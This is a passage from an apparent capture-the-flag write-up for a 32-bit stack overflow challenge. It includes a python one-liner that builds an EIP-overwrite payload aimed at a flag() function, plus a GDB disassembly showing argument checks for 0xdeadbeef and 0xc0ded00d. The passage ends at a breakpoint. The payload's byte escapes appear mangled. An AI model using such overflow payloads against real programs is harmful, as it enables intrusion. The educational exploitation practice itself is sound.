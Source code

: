 Note the functions of interest which are in red

Flag() is at 0x080491e2 which in little endian byte format is xe2x91x04x08. Therefore, upon inputting a string of 188 bytes followed by the address of the flag, the program should call the function:

{% highlight bash %}
┌─[0xd4y@Writeup]─[~/business/hackthebox/challenges/pwn/easy/you_know]  
└──╼ $python -c "print 'A'*188 + 'xe2x91x04x08'" > eip_flag
{% endhighlight %}

Before running this malicious string, recall that the program exits if the file flag.txt does not exist. This file was simply created using the touch command as follows:

{% highlight bash %}
┌─[0xd4y@Writeup]─[~/business/hackthebox/challenges/pwn/easy/you_know]  
└──╼ $touch flag.txt
{% endhighlight %}

The comparison within the function in question starts at flag+100 (or 0x08049246). This can be found using the disass (short for disassemble) command within GDB:

{% highlight bash %}
pwndbg> disass flag                                                                                                                                                    
Dump of assembler code for function flag:                                              
  0x080491e2 <+0>:     push   ebp                                                     0x080491e3 <+1>:     mov    ebp,esp                                                 0x080491e5 <+3>:     push   ebx                                                     0x080491e6 <+4>:     sub    esp,0x54  
  0x080491e9 <+7>:     call   0x8049120 <__x86.get_pc_thunk.bx>  
  0x080491ee <+12>:    add    ebx,0x2e12  
  0x080491f4 <+18>:    sub    esp,0x8  
  0x080491f7 <+21>:    lea    eax,[ebx-0x1ff8]  
  0x080491fd <+27>:    push   eax  0x080491fe <+28>:    lea    eax,[ebx-0x1ff6]  
  0x08049204 <+34>:    push   eax  0x08049205 <+35>:    call   0x80490b0 <fopen@plt>  
  0x0804920a <+40>:    add    esp,0x10  
  0x0804920d <+43>:    mov    DWORD PTR [ebp-0xc],eax  0x08049210 <+46>:    cmp    DWORD PTR [ebp-0xc],0x0  
  0x08049214 <+50>:    jne    0x8049232 <flag+80>  
  0x08049216 <+52>:    sub    esp,0xc  
  0x08049219 <+55>:    lea    eax,[ebx-0x1fec]  
  0x0804921f <+61>:    push   eax  0x08049220 <+62>:    call   0x8049070 <puts@plt>  
  0x08049225 <+67>:    add    esp,0x10  
  0x08049228 <+70>:    sub    esp,0xc  
  0x0804922b <+73>:    push   0x0  
  0x0804922d <+75>:    call   0x8049080 <exit@plt>  
  0x08049232 <+80>:    sub    esp,0x4  
  0x08049235 <+83>:    push   DWORD PTR [ebp-0xc]  
  0x08049238 <+86>:    push   0x40  
  0x0804923a <+88>:    lea    eax,[ebp-0x4c]  
  0x0804923d <+91>:    push   eax  0x0804923e <+92>:    call   0x8049050 <fgets@plt>  
  0x08049243 <+97>:    add    esp,0x10  
  0x08049246 <+100>:   cmp    DWORD PTR [ebp+0x8],0xdeadbeef  
  0x0804924d <+107>:   jne    0x8049269 <flag+135>  
  0x0804924f <+109>:   cmp    DWORD PTR [ebp+0xc],0xc0ded00d  
  0x08049256 <+116>:   jne    0x804926c <flag+138>  
  0x08049258 <+118>:   sub    esp,0xc  
  0x0804925b <+121>:   lea    eax,[ebp-0x4c]  
  0x0804925e <+124>:   push   eax  0x0804925f <+125>:   call   0x8049030 <printf@plt>  
  0x08049264 <+130>:   add    esp,0x10  
  0x08049267 <+133>:   jmp    0x804926d <flag+139>  
  0x08049269 <+135>:   nop  0x0804926a <+136>:   jmp    0x804926d <flag+139>  
  0x0804926c <+138>:   nop  0x0804926d <+139>:   mov    ebx,DWORD PTR [ebp-0x4]  
  0x08049270 <+142>:   leave   0x08049271 <+143>:   ret   End of assembler dump.

Prior to piping the contents of eip_flag into the binary, a breakpoint was set at 0x08049246 to allow further investigation into the EBP register.

pwndbg> b *0x08049246                                                                  